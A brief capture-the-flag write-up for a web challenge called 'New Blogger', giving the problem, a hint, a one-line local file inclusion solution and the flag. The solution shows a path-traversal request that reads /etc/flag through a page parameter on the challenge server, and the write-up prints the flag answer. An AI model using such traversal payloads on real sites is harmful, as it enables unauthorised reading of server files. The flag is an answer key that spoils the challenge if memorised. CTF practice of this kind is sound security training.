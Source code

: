 # New Blogger

__PROBLEM__

Misha is a travel blogger.She made a website for her blog.Minan was very impressed with it but on detailed inspection found that there existed a vulnerability.
Can you find the flag exploiting the same?

Hint: Flag is in /etc/flag

[Link](104.248.49.223:7074)


__SOLUTION__

After reading the hint one thing that is clear is that this website is vulnerable to [Local file inclusion(LFI)](https://en.wikipedia.org/wiki/File_inclusion_vulnerability). So First thing to try is `http://104.248.49.223:7074/?page=../../../../../../../../../../etc/flag` and guess what we have, yes our beloved flag.

FLAG - `GLUG{7h3_54m3_0ld_f1l3_1nclu510n}`
